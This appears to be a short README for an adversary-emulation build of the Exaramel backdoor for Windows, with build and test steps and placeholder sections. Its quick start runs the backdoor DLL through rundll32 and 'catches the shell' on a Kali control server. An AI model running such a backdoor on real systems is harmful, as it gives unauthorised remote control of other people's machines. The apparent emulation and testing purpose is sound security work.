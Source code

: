 # Exaramel for Windows

What is the purpose of this binary?
How does it work?
What does it do?

## Quick Start

```
# Start your control server on Kali
sudo ./controlServer

# build Exaramel on Windows
make.bat

# run the DLL
rundll32.exe Exaramel-Windows.dll,Start

# catch the shell on your control server
```

## Build Instructions

Run make.bat on Windows.

It will output "Exaramel-Windows.dll" in the Exaramel-Windows folder.

```
cd sandworm\Resources\Exaramel-Windows\
make
```

## Test Instructions


```
cd sandworm\Resources\Exaramel-Windows\
go test -v ./...
````

## Usage Examples

```bash
TBD
```

### Cleanup Instructions

```bash
TBD
```

### CTI Evidence

TBD